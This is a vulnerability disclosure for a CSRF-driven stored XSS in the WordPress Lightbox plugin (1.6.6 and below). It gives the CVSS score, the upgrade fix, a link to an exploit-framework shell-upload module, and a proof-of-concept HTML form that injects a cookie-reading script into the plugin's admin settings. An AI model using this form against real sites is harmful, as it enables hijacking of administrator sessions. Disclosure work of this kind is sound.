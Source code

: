 ```yaml
---
layout: single
title: Lightbox <= 1.6.6 CSRF Stored XSS
date: 2016-12-02
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - lightbox
  - csrf
  - stored xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in the output generated by `/admin/view/huge_it_light_box.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/lightbox/](https://wordpress.org/plugins/lightbox/
)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the output generated by `/admin/view/huge_it_light_box.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.6.6 and below

## Solution
Upgrade to version 1.6.8

## WordPress Exploit Framework Module
[exploit/xss/reflected/lightbox\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/lightbox_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="http://[target]/wp-admin/admin.php?page=huge_it_light_box&amp;hugeit_task=save" method="post">
  <input type="text" name="light_box_speed" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;">
  <input type="text" name="light_box_style" value="1" />
  <input type="text" name="light_box_transition" value="elastic" />
  <input type="text" name="light_box_fadeout" value="300" />
  <input type="text" name="light_box_title" value="false" />
  <input type="text" name="params[light_box_opacity]" value="20" />
  <input type="text" name="params[light_box_open]" value="false" />
  <input type="text" name="params[light_box_overlayclose]" value="false" />
  <input type="text" name="params[light_box_overlayclose]" value="true" />
  <input type="text" name="params[light_box_esckey]" value="false" />
  <input type="text" name="params[light_box_arrowkey]" value="false" />
  <input type="text" name="params[light_box_loop]" value="false" />
  <input type="text" name="params[light_box_loop]" value="true" />
  <input type="text" name="params[light_box_closebutton]" value="false" />
  <input type="text" name="params[light_box_closebutton]" value="true" />
  <input type="text" name="params[light_box_fixed]" value="false" />
  <input type="text" name="params[light_box_fixed]" value="true" />
  <input type="text" name="params[slider_title_position]" value="5" />
  <input type="text" name="params[light_box_size_fix]" value="false" />
  <input type="text" name="params[light_box_width]" value="500" />
  <input type="text" name="params[light_box_height]" value="500" />
  <input type="text" name="params[light_box_maxwidth]" value="768" />
  <input type="text" name="params[light_box_maxheight]" value="500" />
  <input type="text" name="params[light_box_initialwidth]" value="300" />
  <input type="text" name="params[light_box_initialheight]" value="100" />
  <input type="text" name="params[light_box_slideshow]" value="false" />
  <input type="text" name="params[light_box_slideshowspeed]" value="2500" />
  <input type="text" name="params[light_box_slideshowauto]" value="false" />
  <input type="text" name="params[light_box_slideshowauto]" value="true" />
  <input type="text" name="params[light_box_slideshowstart]" value="start slideshow" />
  <input type="text" name="params[light_box_slideshowstop]" value="stop slideshow" />
  <input type="text" name="params[watermarket_image]" value="false" />
  <input type="text" name="params[watermark_width]" value="0" />
  <input type="text" name="params[watermark_transparency]" value="0" />
  <input type="submit" value="submit">
</form>
```
